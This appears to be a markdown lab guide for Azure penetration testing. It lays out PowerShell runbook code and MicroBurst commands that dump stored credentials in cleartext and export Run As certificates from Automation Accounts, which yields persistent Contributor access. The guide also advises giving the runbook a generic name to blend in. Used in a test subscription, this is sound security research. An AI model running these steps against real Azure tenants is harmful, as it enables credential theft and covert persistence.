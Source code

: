# Automation Accounts Credentials Extraction

## Steps

### 1) First, we will need to create a new runbook in the account. Ideally, we would name this something generic, such as AzureAutomationTutorials, to blend in.

### 2) This runbook will cast the Cred-1 credential item to a variable, then output the username and password to the job output:

 - $myCredential = Get-AutomationPSCredential -Name 'Cred-1'

 - $userName = $myCredential.UserName

 - $password = $myCredential.GetNetworkCredential().Password

 - $userName

 - $password

### 3) We will follow a similar process for exporting the attached Automation account Run as certificates:

 - $RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'

 - $CertificatePath = Join-Path $env:temp RunAsCertificate.pfx

 - $Cert = $RunAsCert.Export('pfx','CertificatePassword')

 - Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose

 - $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath))

 - $base64string


### 4) Finally, we can review the job output to recover the credentials. The certificates can be converted back to pfx files from the Base64 strings, and the stored credentials should be available in cleartext.

# Create a "Run as" account in the test Automation account

## Steps:

### 1) Log in as the "azureadmin" account, or as an owner of the subscription

### 2) Navigate to Automation Accounts section

### 3) Either choose an existing Automation account or create a new one. If you're creating a new Automation account, a Run as account can be created along with the account.

### 4) Select Run as accounts from the menu blade

### 5) Choose Create Azure Run As Account in the menu

### 6) In the next window, select the Create button

### That is all that we need to do! Now we have a Run as service principal account to extract from our sample Automation account. By default, this account will have the Contributor role applied for the subscription that it is created in.

# Extracting Stored Passwords and Certificates from Automation Accounts

## Steps

 - Connect-AzAccount (Authenticate with a contributor user/role account)

 - Get-AzPasswords -AppServices N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView (Dump credentials for Automation Accounts)

 - When prompted to select an Azure subscription, select your test Azure subscription and click OK

 - In the resulting output, you should see credentials that were dumped from the Automation account

 - explorer . (Opens current path in File Explorer)

 - Log in as RunAs account

 - (Get-AzContext).Account (Confirm the current user context)

### We now have the cleartext credentials from the Automation account and a private certificate that we can use to authenticate as the Run as account. Since the Contributor role is configured for the Run as account by default, this means we will likely have a persistent Contributor account in the subscription.

## Alternate method for Automation Accounts credentials dumping:

 - Get-AzAutomationAccountCredsREST (MicroBurst function. Does not require Contributor account access. REST API tokens are used instead)



